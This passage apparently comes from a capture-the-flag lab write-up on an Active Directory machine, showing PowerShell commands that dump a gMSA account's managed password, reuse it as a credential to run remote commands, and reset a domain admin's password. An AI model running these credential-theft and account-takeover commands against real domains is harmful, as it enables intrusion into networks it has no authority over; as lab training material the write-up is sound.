 as you can see we can dump the password, GMSA password it's hard to decode. but we can make the password into variable.

```powershell
$gmsa = Get-ADServiceAccount -Identity 'BIR-ADFS-GMSA' -Properties 'msDS-ManagedPassword'
$mp = $gmsa.'msDS-ManagedPassword'

#make the password into variable
$c = ConvertFrom-ADManagedPasswordBlob $mp
```

switch user into `BIR-ADFS-GMSA` with following command:

```powershell
$username ="BIR-ADFS-GMSA";
$password = $c.SecureCurrentPassword; 
$cred = New-Object System.Management.Automation.PSCredential -ArgumentList $username, $password;
```

use `whoami` command to check if we `BIR-ADFS-GMSA` user or not with prompt:

```powershell
Invoke-Command -ScriptBlock { whoami } -ComputerName RESEARCH -Credential $cred
```

![](/assets/img/search/33.png)

as you can see, now we bir-adfs user, from now we can change the domain admin password into `bunnys666` with following command:

```powershell
Invoke-Command -ComputerName localhost -Credential $cred -ScriptBlock {net user Tristan.Davies bunnys666 /domain}
```

![](/assets/img/search/34.png)

check on crackmapexec

![](/assets/img/search/35.png)
